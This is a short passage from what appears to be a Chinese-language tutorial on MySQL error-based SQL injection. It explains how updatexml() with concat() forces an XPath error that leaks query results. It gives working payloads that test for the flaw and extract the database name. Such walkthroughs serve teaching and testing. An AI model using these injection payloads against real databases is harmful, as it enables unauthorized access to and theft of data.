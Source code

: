 ```scss
updatexml()
 
这个和我们查询没什么关系 
主要是
 
updatexml(1,2,3)
当第二个参数2为一个特殊符号的时候 就会返回报错
 
这个函数原本是用来更新xml值的
 
 
updatexml(需要更新的xml文档,xpath表达式,替换的值）
 
在 xpath表达式写入特殊符号 这样就不是返回mysql的报错
 
而是返回 xpath的错误 
 
这个时候要知道另一个函数 concat()
 
就是把两个字符串 合并
concat("hello","world")
 
为helloworld
 
这个时候 通过 updatexml(1,concat(0x7e,查询语句),3)
 
就可以合并返回报错信息
 
其中 concat()内容可以是任何数据类型
```

所以我们可以直接开始报错注入

### 查看是不是报错注入

```vbnet
1') and updatexml(1,0x7e,3)-- +
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/4b30424d2fc3776d6ebfa4f0afd9e3c0.png" alt="" style="max-height:124px; box-sizing:content-box;" />


### 爆数据库



```vbnet
1') and updatexml(1,concat(0x7e,database()),3)-- +
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/6c14cb156adcd189a9bb35cb0f7a5d80.png" alt="" style="max-height:107px; box-sizing:content-box;" />
